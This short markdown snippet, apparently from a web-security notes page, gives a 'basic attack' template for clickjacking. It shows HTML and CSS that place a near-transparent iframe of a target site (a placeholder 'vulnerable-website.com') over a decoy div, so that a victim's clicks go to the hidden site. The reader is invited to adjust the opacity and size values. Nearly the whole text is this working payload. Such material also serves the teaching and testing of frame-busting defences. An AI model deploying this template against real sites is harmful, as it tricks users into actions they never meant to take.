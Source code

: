 # basic attack

change **opacity + width + height** values as you wish: 
```html
<head>
  <style>
    #target_website {
    	position:relative;
    	width:128px;
    	height:128px;
    	opacity:0.00001;
    	z-index:2;
    	}
    #decoy_website {
    	position:absolute;
    	width:300px;
    	height:400px;
    	z-index:1;
    	}
  </style>
</head>
...
<body>
  <div id="decoy_website">...decoy web content here...</div>
  <iframe id="target_website" src="https://vulnerable-website.com"></iframe>
</body>
```


